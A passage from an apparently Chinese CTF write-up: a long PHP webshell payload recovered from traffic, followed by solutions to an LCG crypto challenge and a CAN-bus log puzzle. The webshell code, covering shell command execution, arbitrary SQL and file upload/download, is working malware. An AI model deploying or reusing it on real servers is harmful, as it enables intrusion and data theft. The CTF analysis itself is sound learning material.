 pcntl_exec($cmd, $args);\r
 // the child will only reach this point on exec failure,\r
 // because execution shifts to the pcntl_exec()ed command\r
 exit(0);\r
 default:\r
 break;\r
 }\r
 if (!file_exists($resultFile)){\r
 sleep(2);\r
 }\r
 $result=file_get_contents($resultFile);\r
 @unlink($commandFile);\r
 @unlink($resultFile);\r
\r
 }elseif(($result=runshellshock(__FILE__, $cmdLine)!==false)) {\r
\r
 }else{\r
 return "Command execution function is disabled Tried proc_open/passthru/shell_exec/exec/exec/popen/COM/runshellshock/pcntl_exec";\r
 }\r
 $result .= @ob_get_contents();\r
 @ob_end_clean();\r
\r
 return $result;\r
}\r
function execSql(){\r
 $dbType=get("dbType");\r
 $dbDrive=get("dbDrive");\r
 $connectString=get("connectString");\r
 $host=get("dbHost");\r
 $port=get("dbPort");\r
 $username=get("dbUsername");\r
 $password=get("dbPassword");\r
 $execType=get("execType");\r
 $sql=get("execSql");\r
 $charset=get("dbCharset");\r
 $currentDb=get("currentDb");\r
 function mysqli_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $conn = new mysqli($host,$username,$password,"",$port);\r
 $result = array();\r
 if ($conn-&gt;connect_error) {\r
 $result["errMsg"] = $conn-&gt;connect_error;\r
 return g_serialize($result);\r
 }\r
 if (!empty($charset)){\r
 $conn-&gt;set_charset($charset);\r
 }\r
 if (!empty($currentDb)){\r
 $conn-&gt;select_db($currentDb);\r
 }\r
 $sqlresult = $conn-&gt;query($sql);\r
 if ($conn-&gt;error){\r
 $result["errMsg"] = $conn-&gt;error;\r
 return g_serialize($result);\r
 }\r
 if ($execType=="update"){\r
 $result["errMsg"] = "Query OK, ".$conn-&gt;affected_rows." rows affected";\r
 return g_serialize($result);\r
 }else{\r
 $columns = array();\r
 while ($column = $sqlresult-&gt;fetch_field()){\r
 $columns[] = $column-&gt;name;\r
 }\r
 $result["column"] = &$columns;\r
 $rows = array();\r
 if ($sqlresult-&gt;num_rows &gt; 0) {\r
 while($row = $sqlresult-&gt;fetch_assoc()) {\r
 $onerow = array();\r
 foreach ($row as $value){\r
 $onerow[] = $value;\r
 }\r
 $rows[] = $onerow;\r
 }\r
 }\r
 $columns["count"] = count($columns);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }\r
 return g_serialize($result);\r
 }\r
 function mysql_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb) {\r
 $con = @mysql_connect($host.":".$port, $username, $password);\r
 $result[] = array();\r
 if (!$con) {\r
 $result["errMsg"] = mysql_error();\r
 return g_serialize($result);\r
 } else {\r
 if (!empty($charset)){\r
 mysql_set_charset($charset,$con);\r
 }\r
 if (!empty($currentDb)){\r
 if (function_existsEx("mysql_selectdb")){\r
 mysql_selectdb($currentDb,$con);\r
 }elseif (function_existsEx("mysql_select_db")){\r
 mysql_select_db($currentDb,$con);\r
 }\r
 }\r
 $sqlresult = @mysql_query($sql);\r
 if (!$sqlresult) {\r
 $result["errMsg"] = mysql_error();\r
 return g_serialize($result);\r
 }\r
 if ($execType == "update") {\r
 $result["errMsg"] = "Query OK, ".mysql_affected_rows($con)." rows affected";\r
 return g_serialize($result);\r
 } else {\r
 $columns = array();\r
 for ($i = 0; $i &lt; mysql_num_fields($sqlresult); $i++) {\r
 $columns[] = mysql_field_name($sqlresult, $i);\r
 }\r
 $columns["count"] = count($columns);\r
 $result["column"] = &$columns;\r
 $rowNum = mysql_num_rows($sqlresult);\r
 $rows = array();\r
 if ($rowNum &gt; 0) {\r
 while ($row = mysql_fetch_row($sqlresult)) {\r
 $onerow=array();\r
 foreach($row as $value) {\r
 $onerow[] = $value;\r
 }\r
 $rows[] =$onerow;\r
 }\r
 }\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }\r
 @mysql_close($con);\r
 }\r
 return g_serialize($result);\r
 }\r
 function mysqliEx_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $port == "" ? $port = "3306" : $port;\r
 $result = array();\r
 $T=@mysqli_connect($host,$username,$password,"",$port);\r
 if (!$T){\r
 $result["errMsg"] = mysqli_connect_error();\r
 return g_serialize($result);\r
 }\r
\r
 if (!empty($charset)){\r
 @mysqli_set_charset($charset);\r
 }\r
 if (!empty($currentDb)){\r
 @mysqli_select_db($T,$currentDb);\r
 }\r
 $q=@mysqli_query($T,$sql);\r
 if(is_bool($q)){\r
 $result["errMsg"] = mysqli_error($T);\r
 return g_serialize($result);\r
 }else{\r
 if (mysqli_num_fields($q)&gt;0){\r
 $columns = array();\r
 while($col=@mysqli_fetch_field($q)){\r
 $columns[] = $col-&gt;name;\r
 }\r
 $result["column"] = &$columns;\r
 $rows = array();\r
 while($rs=@mysqli_fetch_row($q)){\r
 $row = array();\r
 for($c=0;$c&lt;count($columns);$c++){\r
 $row[] = $rs[$c];\r
 }\r
 $rows[] = $row;\r
 }\r
 $columns["count"] = count($columns);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }else{\r
 $result["errMsg"] = "Query OK, ".@mysqli_affected_rows($T)." rows affected";\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 function pg_execEx($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $port == "" ? $port = "5432" : $port;\r
 $result = array();\r
 $arr=array(\r
 \'host\'=&gt;$host,\r
 \'port\'=&gt;$port,\r
 \'user\'=&gt;$username,\r
 \'password\'=&gt;$password\r
 );\r
 if (!empty($currentDb)){\r
 $arr["dbname"]=$currentDb;\r
 }\r
 $cs=\'\';\r
 foreach($arr as $k=&gt;$v) {\r
 if(empty($v)){\r
 continue;\r
 }\r
 $cs .= "$k=$v ";\r
 }\r
 $T=@pg_connect($cs);\r
 if(!$T){\r
 $result["errMsg"] = "Database connection failure!";\r
 return g_serialize($result);\r
 }else{\r
 if (!empty($charset)){\r
 @pg_set_client_encoding($T,$charset);\r
 }\r
 $q=@pg_query($T, $sql);\r
 if(!$q){\r
 $result["errMsg"] = @pg_last_error($T);\r
 return g_serialize($result);\r
 }else{\r
 $n=@pg_num_fields($q);\r
 if($n===0){\r
 $result["errMsg"] = "Query OK, ".@pg_affected_rows($q)." rows affected";\r
 return g_serialize($result);\r
 }else{\r
 $columns = array();\r
 for($i=0;$i&lt;$n;$i++){\r
 $columns[] = @pg_field_name($q,$i);\r
 }\r
 $result["column"] = &$columns;\r
 $rows = array();\r
 while($row=@pg_fetch_row($q)){\r
 $onerow = array();\r
 for($i=0;$i&lt;$n;$i++){\r
 $onerow[] = $row[$i]!==NULL?$row[$i]:"NULL";\r
 }\r
 $rows[] = $onerow;\r
 }\r
 $columns["count"] = count($columns);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 function sqlsrv_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $result = array();\r
 @sqlsrv_configure(\'WarningsReturnAsErrors\',0);\r
 $dbConfig=array("UID"=&gt; $username,"PWD"=&gt;$password);\r
 if (!empty($currentDb)){\r
 $dbConfig["Database"]=$currentDb;\r
 }\r
 if (!empty($charset)){\r
 $dbConfig["CharacterSet"]=$charset;\r
 }\r
 $host .=", ".$port;\r
\r
 $T=@sqlsrv_connect($host,$dbConfig);\r
\r
 if (!$T){\r
 $err="";\r
 if(($e = sqlsrv_errors()) != null){\r
 foreach($e as $v){\r
 $err.=($v[\'message\'])."\
";\r
 }\r
 }\r
 $result["errMsg"] = $err;\r
 return g_serialize($result);\r
 }\r
 $q=@sqlsrv_query($T,$sql,null);\r
 if($q!==false){\r
 $i=0;\r
 $fm=@sqlsrv_field_metadata($q);\r
 if(empty($fm)){\r
 $ar=@sqlsrv_rows_affected($q);\r
 $result["errMsg"] = "Query OK, ".$ar." rows affected";\r
 return g_serialize($result);\r
 }else{\r
 $columns = array();\r
 foreach($fm as $rs){\r
 $columns[] = $rs[\'Name\'];\r
 $i++;\r
 }\r
 $result["column"] = &$columns;\r
 $rows = array();\r
 while($rs=@sqlsrv_fetch_array($q,SQLSRV_FETCH_NUMERIC)){\r
 $row = array();\r
 for($c=0;$c&lt;$i;$c++){\r
 $row[] = $rs[$c];\r
 }\r
 $rows[] = $row;\r
 }\r
 $columns["count"] = count($columns);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }\r
 }else{\r
 $err="";\r
 if(($e = sqlsrv_errors()) != null){\r
 foreach($e as $v){\r
 $err.=($v[\'message\'])."\
";\r
 }\r
 }\r
 $result["errMsg"] = $err;\r
 }\r
 return g_serialize($result);\r
 }\r
 function mssql_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $T=@mssql_connect($host,$username,$password);\r
 $result = array();\r
 if (!$T){\r
 $result["errMsg"] = mssql_get_last_message();\r
 return g_serialize($result);\r
 }\r
\r
 if (!empty($currentDb)){\r
 @mssql_select_db($currentDb);\r
 }\r
 $q=@mssql_query($sql,$T);\r
 if(is_bool($q)){\r
 if ($q){\r
 $result["errMsg"] = "Query OK, ".@mssql_rows_affected($T)." rows affected";\r
 return g_serialize($result);\r
 }else{\r
 $result["errMsg"] = mssql_get_last_message();\r
 return g_serialize($result);\r
 }\r
 }else{\r
 $columns = array();\r
 while($rs=@mssql_fetch_field($q)){\r
 $columns[] = $rs-&gt;name;\r
 }\r
 $result["column"] = &$columns;\r
 $rows[] = array();\r
 while($rs=@mssql_fetch_row($q)){\r
 $row = array();\r
 for($c=0;$c&lt;count($columns);$c++){\r
 $row[] = $rs[$c];\r
 }\r
 $rows[] = $row;\r
 }\r
 @mssql_free_result($q);\r
 @mssql_close($T);\r
 $columns["count"] = count($columns);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 }\r
 return g_serialize($result);\r
 }\r
 function oci_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb) {\r
 $chs = $charset ? $charset : "utf8";\r
 $result = array();\r
 $mod = 0;\r
 if ($username=="sys"){\r
 $mod = 2;\r
 }\r
 $H = @oci_connect($username, $password, $connectString, $chs, $mod);\r
 if (!$H) {\r
 $errObj=@oci_error();\r
 $result["errMsg"] = $errObj["message"];\r
 return g_serialize($result);\r
 } else {\r
 $q = @oci_parse($H, $sql);\r
 if (@oci_execute($q)) {\r
 $n = oci_num_fields($q);\r
 if ($n == 0) {\r
 $result["errMsg"] = "Query OK, ".@oci_num_rows($q)." rows affected";\r
 return g_serialize($result);\r
 } else {\r
 $column = array();\r
 for ($i = 1; $i &lt;= $n; $i++) {\r
 $column[] = oci_field_name($q, $i);\r
 }\r
 $result["column"] = &$column;\r
 $rows = array();\r
 while ($row = @oci_fetch_array($q, OCI_ASSOC + OCI_RETURN_NULLS)) {\r
 $onerow = array();\r
 foreach($row as $item) {\r
 $onerow[] = $item;\r
 }\r
 $rows[]=$onerow;\r
 }\r
 $column["count"] = count($column);\r
 $rows["count"] = count($rows);\r
 $result["rows"]=&$rows;\r
 return g_serialize($result);\r
 }\r
 } else {\r
 $e = @oci_error($H);\r
 if ($e) {\r
 $result["errMsg"] = "errMsg: {$e[\'message\']}";\r
 } else {\r
 $result["errMsg"] = "An error occurred while executing a SQL statement";\r
 }\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 function ora_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb) {\r
 $result = array();\r
 $H = @ora_plogon("{$username}@{$host}", "{$password}");\r
 if (!$H) {\r
 $result["errMsg"] = "Database connection failure!";\r
 return g_serialize($result);\r
 } else {\r
 $T = @ora_open($H);\r
 @ora_commitoff($H);\r
 $q = @ora_parse($T, "{$sql}");\r
 $R = ora_exec($T);\r
 if ($R) {\r
 $n = ora_numcols($T);\r
 if (!$n){\r
 $result["errMsg"] = "ok";\r
 return g_serialize($result);\r
 }\r
 $column = array();\r
 for ($i = 0; $i &lt; $n; $i++) {\r
 $column[] = Ora_ColumnName($T, $i);\r
 }\r
 $result["column"] = &$column;\r
 $rows = array();\r
 while (ora_fetch($T)) {\r
 $row = array();\r
 for ($i = 0; $i &lt; $n; $i++) {\r
 $row[] = ora_getcolumn($T, $i);\r
 }\r
 $rows[] = $row;\r
 }\r
 $column["count"] = count($column);\r
 $rows["count"] = count($rows);\r
 $result["rows"] = &$rows;\r
 } else {\r
 $result["errMsg"] = "An error occurred during the query";\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 function sqlite_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb) {\r
 $dbh=new SQLite3($host);\r
 $result = array();\r
 if(!$dbh){\r
 $result["errMsg"] = SQLite3::lastErrorMsg();\r
 return g_serialize($result);\r
 }else{\r
 $stmt=$dbh-&gt;prepare($sql);\r
 if(!$stmt){\r
 $result["errMsg"] = $dbh-&gt;lastErrorMsg();\r
 return g_serialize($result);\r
 } else {\r
 $sqlresult=$stmt-&gt;execute();\r
 if(!$sqlresult){\r
 $result["errMsg"] = $dbh-&gt;lastErrorMsg();\r
 return g_serialize($result);\r
 }else{\r
 $bool=True;\r
 $column = array();\r
 $rows = array();\r
 while($res=$sqlresult-&gt;fetchArray(SQLITE3_ASSOC)){\r
 $row = array();\r
 if($bool){\r
 foreach($res as $key=&gt;$value){\r
 $column[] = $key;\r
 }\r
 $bool=False;\r
 }\r
 foreach($res as $key=&gt;$value){\r
 $row[] = value!==NULL?$value:"NULL";\r
 }\r
 $rows[]=$row;\r
 }\r
 $result["column"] = &$column;\r
 $result["rows"] = &$rows;\r
 $rows["count"] = count($rows);\r
 $column["count"] = count($column);\r
 if($bool){\r
 if(!$sqlresult-&gt;numColumns()){\r
 $result["errMsg"] = "Query OK, ".$dbh-&gt;changes()." rows affected";\r
 }else{\r
 $result["errMsg"] = "Table is empty.";\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 }\r
 $dbh-&gt;close();\r
 }\r
 return g_serialize($result);\r
 }\r
 function pdoExec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $conn=null;\r
 $result = array();\r
 $conn = new PDO($connectString, $username, $password);\r
 $conn-&gt;setAttribute(3, 0);\r
 if ($execType=="update"){\r
 $affectRows=$conn-&gt;exec($sql);\r
 if ($affectRows!==false){\r
 $result["errMsg"] = "Query OK, ".$conn-&gt;exec($sql)." rows affected";\r
 }else{\r
 $result["errMsg"] = "Err-&gt;\
".implode(\',\',$conn-&gt;errorInfo());\r
 }\r
 return g_serialize($result);\r
 }else{\r
 $stm=$conn-&gt;prepare($sql);\r
 if ($stm-&gt;execute()){\r
 $row=$stm-&gt;fetch(2);\r
 $columns = array();\r
 $onerow = array();\r
 foreach (array_keys($row) as $key){\r
 $columns[] = $key;\r
 $onerow[] = $row[$key];\r
 }\r
 $result["column"] = &$columns;\r
 $rows = array();\r
 if (count($onerow)&gt;0){\r
 $rows[] = $onerow;\r
 }\r
 while ($row=$stm-&gt;fetch(2)){\r
 $onerow = array();\r
 foreach (array_keys($row) as $key){\r
 $onerow[] = $row[$key];\r
 }\r
 $rows[] = $onerow;\r
 }\r
 $result["rows"] = &$rows;\r
 $rows["count"] = count($rows);\r
 $columns["count"] = count($columns);\r
 }else{\r
 $result["errMsg"] = implode(\',\',$stm-&gt;errorInfo());\r
 }\r
 }\r
 return g_serialize($result);\r
 }\r
 function odbcExec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb){\r
 $result = array();\r
 $conn = odbc_connect($connectString, $username, $password, SQL_CUR_USE_ODBC);\r
 if ($conn) {\r
 $sqlresult = odbc_exec($conn, $sql);\r
 if (!$sqlresult){\r
 $result["errMsg"] = odbc_errormsg();\r
 return g_serialize($result);\r
 }\r
\r
 $columnNum = odbc_num_fields($sqlresult);\r
 if ($columnNum == 0){\r
 $result["errMsg"] = "Query OK, ".odbc_num_rows($sqlresult)." rows affected";\r
 return g_serialize($result);\r
 }\r
\r
 $column = array();\r
 for ($i = 1; $i &lt;= $columnNum; $i++){\r
 $column[] = odbc_field_name($sqlresult,$i);\r
 }\r
 $rows = array();\r
 while (odbc_fetch_row($sqlresult)) {\r
 $row = array();\r
 for ($i = 1; $i &lt;= $columnNum; $i ++) {\r
 $row[] = odbc_result($sqlresult,$i);\r
 }\r
 $rows[] = $row;\r
 }\r
 $rows["count"] = count($rows);\r
 $column["count"] = count($column);\r
 $result["column"]=&$column;\r
 $result["rows"] = &$rows;\r
 } else {\r
 $result["errMsg"] = odbc_errormsg();\r
 }\r
 return g_serialize($result);\r
 }\r
\r
 if ($dbDrive == "pdo" && class_exists("PDO")){\r
 return pdoExec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }else if ($dbDrive == "odbc" && function_existsEx("odbc_connect")){\r
 return odbcExec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
\r
\r
\r
 if ($dbType=="mysql"&&(class_exists("mysqli")||function_existsEx("mysql_connect")||function_existsEx("mysqli_connect"))){\r
 if (class_exists("mysqli")){\r
 return mysqli_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }elseif (function_existsEx("mysql_connect")){\r
 return mysql_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }else if (function_existsEx("mysqli_connect")){\r
 return mysqliEx_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
 }elseif ($dbType=="postgresql"&&function_existsEx("pg_connect")){\r
 if (function_existsEx("pg_connect")){\r
 return pg_execEx($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
 }elseif ($dbType=="sqlserver"&&(function_existsEx("sqlsrv_connect")||function_existsEx("mssql_connect"))){\r
 if (function_existsEx("sqlsrv_connect")){\r
 return sqlsrv_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }elseif (function_existsEx("mssql_connect")){\r
 return mssql_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
 }elseif ($dbType=="oracle"&&(function_existsEx("oci_connect")||function_existsEx("ora_plogon"))){\r
 if (function_existsEx("oci_connect")){\r
 return oci_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }else if (function_existsEx("ora_plogon")){\r
 return oci_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
 }elseif ($dbType=="sqlite"&&class_exists("SQLite3")){\r
 return sqlite_exec($host,$port,$username,$password,$connectString,$execType,$sql,$charset,$currentDb);\r
 }\r
 $result = array();\r
 $result["errMsg"] = "no extension";\r
 return g_serialize($result);\r
\r
}\r
function base64Encode($data){\r
 return base64_encode($data);\r
}\r
function test(){\r
 return "ok";\r
}\r
function get($key){\r
 global $parameters;\r
 if (isset($parameters[$key])){\r
 return $parameters[$key];\r
 }else{\r
 return null;\r
 }\r
}\r
function getAllParameters(){\r
 global $parameters;\r
 return $parameters;\r
}\r
function includeCode(){\r
 $classCode=get("binCode");\r
 $codeName=get("codeName");\r
 $_SES=&getSession();\r
 $_SES[$codeName]=$classCode;\r
 return "ok";\r
}\r
function base64Decode($string){\r
 return base64_decode($string);\r
}\r
function convertFilePermissions($fileAttr){\r
 $mod=0;\r
 if (strpos($fileAttr,\'R\')!==false){\r
 $mod=$mod+0444;\r
 }\r
 if (strpos($fileAttr,\'W\')!==false){\r
 $mod=$mod+0222;\r
 }\r
 if (strpos($fileAttr,\'X\')!==false){\r
 $mod=$mod+0111;\r
 }\r
 return $mod;\r
}\r
function g_close(){\r
 @session_start();\r
 $_SES=&getSession();\r
 $_SES=null;\r
 if (@session_destroy()){\r
 return "ok";\r
 }else{\r
 return "fail!";\r
 }\r
}\r
\r
function bigFileDownload(){\r
 $mode=get("mode");\r
 $fileName=get("fileName");\r
 $readByteNum=get("readByteNum");\r
 $position=get("position");\r
 if ($mode=="fileSize"){\r
 return @filesize($fileName)."";\r
 }elseif ($mode=="read"){\r
 if (function_existsEx("fopen")&&function_existsEx("fread")&&function_existsEx("fseek")){\r
 $handle=fopen($fileName,"rb");\r
 if ($handle!==false){\r
 @fseek($handle,$position);\r
 $data=fread($handle,$readByteNum);\r
 @fclose($handle);\r
 if ($data!==false){\r
 return $data;\r
 }else{\r
 return "cannot read file";\r
 }\r
 }else{\r
 return "cannot open file";\r
 }\r
 }else if (function_existsEx("file_get_contents")){\r
 return file_get_contents($fileName,false,null,$position,$readByteNum);\r
 }else if (class_exists("SplFileObject")) {\r
 $file = new SplFileObject($fileName,"rb");\r
 $file-&gt;seek($position);\r
 $data = $file-&gt;fread($readByteNum);\r
 $file = null;\r
 return $data;\r
 }else{\r
 return "no function";\r
 }\r
 }else{\r
 return "no mode";\r
 }\r
}\r
\r
function bigFileUpload(){\r
 $fileName=get("fileName");\r
 $fileContents=get("fileContents");\r
 $position=get("position");\r
 if(function_existsEx("fopen")&&function_existsEx("fwrite")&&function_existsEx("fseek")){\r
 $handle=fopen($fileName,"ab");\r
 if ($handle!==false){\r
 fseek($handle,$position);\r
 $len=fwrite($handle,$fileContents);\r
 @fclose($handle);\r
 if ($len!==false){\r
 return "ok";\r
 }else{\r
 return "cannot write file";\r
 }\r
 }else{\r
 return "cannot open file";\r
 }\r
 }else if (function_existsEx("file_put_contents")){\r
 if (file_put_contents($fileName,$fileContents,FILE_APPEND)!==false){\r
 return "ok";\r
 }else{\r
 return "writer fail";\r
 }\r
 }else if (class_exists("SplFileObject")){\r
 $file = new SplFileObject($fileName,"ab");\r
 $file-&gt;seek($position);\r
 $file-&gt;fwrite($fileContents);\r
 $file-&gt;fflush();\r
 $file=null;\r
 return "ok";\r
 }else{\r
 return "no function";\r
 }\r
}\r
function canCallGzipEncode(){\r
 if (function_existsEx("gzencode")){\r
 return "1";\r
 }else{\r
 return "0";\r
 }\r
}\r
function canCallGzipDecode(){\r
 if (function_existsEx("gzdecode")){\r
 return "1";\r
 }else{\r
 return "0";\r
 }\r
}\r
function bytesToInt($bytes) {\r
 return ((ord($bytes[0]) & 0xff) | ((ord($bytes[1]) & 0xff) &lt;&lt; 8) | ((ord($bytes[2]) & 0xff) &lt;&lt; 16)\r
 | ((ord($bytes[3]) & 0xff) &lt;&lt; 24));\r
}\r
\r
function intToBytes($val) {\r
 $val = (int)$val;\r
 $byte = "";\r
 $byte.= chr($val & 0xFF);\r
 $byte.=chr($val &gt;&gt; 8 & 0xFF);\r
 $byte.=chr($val &gt;&gt; 16 & 0xFF);\r
 $byte.=chr($val &gt;&gt; 24 & 0xff);\r
 return $byte;\r
}\r
\r
function isGzipStream($bin){\r
 if (strlen($bin)&gt;=2){\r
 $bin=substr($bin,0,2);\r
 $strInfo = @unpack("C2chars", $bin);\r
 $typeCode = intval($strInfo[\'chars1\'].$strInfo[\'chars2\']);\r
 switch ($typeCode) {\r
 case 31139:\r
 return true;\r
 default:\r
 return false;\r
 }\r
 }else{\r
 return false;\r
 }\r
}\r
'
```

之后应该是继续分析了，但止步于此

彩蛋：神人出题人，复现的时候发现的  
​

# 第六轮

## boringRNG

代码里定义了一个 `RNG` 类，核心是一个 **LCG (Linear Congruential Generator, 线性同余生成器)**：  


其中：

* M=2^n，这里 n=flag长度×8，所以模数是一个 2 的幂。
* A,C是大素数，题目输出了。
* 初始状态 S随机，但我们要恢复它。

加密方式：



也就是每条消息 mi（flag 或随机数字串）与对应的 LCG 状态异或。

题目给了：

* M,A,CM, A, CM,A,C 的数值
* **5 条密文**：第 1 条是 flag，后 4 条是随机生成的 **十进制数字串（ASCII '0'..'9'）**

关键点：  
 随机消息 **只能包含数字字符**，这大大限制了解密结果的可能性。

根据模数是 2 的幂按字节逐步恢复就能解

exp:

```
from Crypto.Util.number import bytes_to_long, long_to_bytes

M = 105312291668557186697918027683670432318895095400549111254310977536
A = 88374959429094291779410031678823825774338019588313091797786329067
C = 96051380126051117777593583876658604814834203814405720083455837449

ciphers_hex = [
    "674c6ac59d0703753f7ccd89e563d732866af287e3bb0a1abe92f0",  # flag
    "76791d13292326ad2e86ae69b9493aed416d8f71cd4a080164e3c3",
    "75e03966148fd58fe623ed5fc76f62e67c8ec4be72bb6ca4b057c9",
    "99201d1bd01631ce3a26687c14014030e0c2a6c01e8c1f2c115668",
    "e12611c1b6f104e2f9dd18fe10e688c2e4d9c1555b57c88959b38f",
]
ciphers = [bytes.fromhex(x) for x in ciphers_hex]
n = len(ciphers[0])  # 字节数

def lift_S1(M, A, C, ciphers):
    cs = [bytes_to_long(c) for c in ciphers]
    candidates = [0]
    mod_k = 1
    for k in range(1, n+1):
        mod_k *= 256
        A_k, C_k = A % mod_k, C % mod_k
        new_cands = []
        for base in candidates:
            for b in range(256):
                S1 = base + (b << (8*(k-1)))
                S = S1
                ok = True
                for i, c in enumerate(cs):
                    m_low = (c ^ S) % mod_k
                    if i > 0:  # 4 个随机数消息必须是数字串
                        if any(not (0x30 <= bb <= 0x39) for bb in m_low.to_bytes(k, 'big')):
                            ok = False
                            break
                    S = (A_k*S + C_k) % mod_k
                if ok:
                    new_cands.append(S1)
        candidates = list(set(new_cands))
    return candidates[0]

def decrypt(M, A, C, ciphers, S1):
    states = []
    S = S1
    for _ in ciphers:
        states.append(S)
        S = (A*S + C) % M
    plains = []
    for c, s in zip(ciphers, states):
        m = bytes_to_long(c) ^ s
        plains.append(long_to_bytes(m, n))
    return plains

if __name__ == "__main__":
    S1 = lift_S1(M, A, C, ciphers)
    plains = decrypt(M, A, C, ciphers, S1)
    flag = plains[0].decode()
    print("flag:", flag)
    for i, p in enumerate(plains[1:], 1):
        print(f"msg{i}:", p.decode())

```

通过逐字节恢复S1的状态，利用随机消息必须是数字字符串的约束来筛选候选值  
故flag:flag{boring\_challenge\_3214a47a44}

# 第七轮

## ezlog

给了车联网流量的日志  


可以看到有很多{#数字}这样的

手动观测一两个发现都是重复变换的

大致翻一遍日志会发现有很多重复的信号通道  
观察上一次与这一次变化的是哪一位就是这个通道要传输的数据，有些可能是很多字节，一般是2-4，然后就提取这几位的数据，如果循环就提取循环的部分即可  
给出脚本：

```
import re

logfile = "ezlog.log"
pattern = re.compile(r"vcan0\s+([0-9A-Fa-f]+)#([0-9A-Fa-f]+)")

# 保存每个 CANID 上一次的 payload
last_payload = {}
# 保存变化结果
changes = {}


def bytes_from_payload(payload):
    # 把payload按两个字符一组拆开成字节
    return [payload[i:i+2] for i in range(0, len(payload), 2)]


with open(logfile, "r") as f:
    for line in f:
        m = pattern.search(line)
        if not m:
            continue
        can_id, payload = m.groups()
        payload_bytes = bytes_from_payload(payload)

        if can_id not in last_payload:
            last_payload[can_id] = payload_bytes
            continue

        prev = last_payload[can_id]
        # 长度可能不一样，补齐
        length = min(len(prev), len(payload_bytes))
        diff_bytes = []
        for i in range(length):
            if prev[i] != payload_bytes[i]:
                diff_bytes.append(payload_bytes[i])

        if diff_bytes:
            if can_id not in changes:
                changes[can_id] = []
            changes[can_id].extend(diff_bytes)

        last_payload[can_id] = payload_bytes

# 输出结果
for can_id, vals in changes.items():
    print(f"{can_id}: {' '.join(vals)}")
    #保存到文件夹output中
    with open(f"output/{can_id}.txt", "w") as f:
        f.write(" ".join(vals))
```

输出：

```
CAN信号详细分析结果
============================================================
源文件: ezlog.log
总消息数: 197429
信号ID数量: 92
有变化的信号: 37
单条消息的ID: 6
============================================================

405#: 位置[14:16] (1字节) 出现338次
变化值: 0B 1A 29 38
----------------------------------------
183#: 位置[6:8] (1字节) 出现9995次
变化值: 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13
----------------------------------------
143#: 位置[6:8] (1字节) 出现9995次
变化值: C2 D1 E0 FF
----------------------------------------
095#: 位置[6:8] (1字节) 出现9995次
变化值: F4 F8
----------------------------------------
166#: 位置[6:8] (1字节) 出现9994次
变化值: 09 18 27 36
----------------------------------------
244#: 位置[8:10] (1字节) 出现7953次
变化值: 00 01 02 03 04 05 06 07 08 09 0A 0B 0C 0D 0E 0F 10 11 12 13 14 15 16 17 18 19 1A 1B 1C 1D 1E 1F 20 21 22 23 24 25 26 27 28 29 2A 2B 2C 2D 2E 2F 30 31 32 33 34 35 36 37 38 39 3A 3B 3C 3D 3E 3F 40 41 42 43 44 45 46 47 48 49 4A 4B 4C 4D 4E 4F 50 51 52 53 54 55 56 57 58 59 5A 5B 5C 5D 5E 5F 60 61 62 64 65 66 67 68 69 6A 6B 6C 6D 6E 6F 70 71 72 73 74 75 76 77 78 79 7A 7B 7C 7D 7E 7F 80 81 82 83 84 85 86 87 88 89 8A 8B 8C 8D 8E 8F 90 91 92 93 94 95 96 97 98 99 9A 9B 9C 9D 9E 9F A0 A1 A2 A3 A4 A5 A6 A7 A8 A9 AA AB AC AD AE AF B0 B1 B2 B3 B4 B5 B6 B7 B8 B9 BA BB BC BD BE BF C0 C1 C2 C3 C4 C5 C6 C7 C8 C9 CA CB CC CD CE CF D0 D1 D2 D3 D4 D5 D6 D7 D8 D9 DA DB DC DD DE DF E0 E1 E2 E3 E4 E5 E6 E7 E8 E9 EA EB EC ED EE EF F0 F1 F2 F3 F4 F5 F6 F7 F8 F9 FA FB FC FD FE FF
----------------------------------------
158#: 位置[14:16] (1字节) 出现9994次
变化值: 0A 19 28 37
----------------------------------------
161#: 位置[14:16] (1字节) 出现9994次
变化值: 0D 1C 2B 3A
----------------------------------------
191#: 位置[4:6] (1字节) 出现9994次
变化值: 10 90
----------------------------------------
164#: 位置[8:10] (1字节) 出现9994次
变化值: A8 A9
----------------------------------------
133#: 位置[8:10] (1字节) 出现9994次
变化值: 89 98 A7 B6
----------------------------------------
136#: 位置[14:16] (1字节) 出现9994次
变化值: 0C 1B 2A 39
----------------------------------------
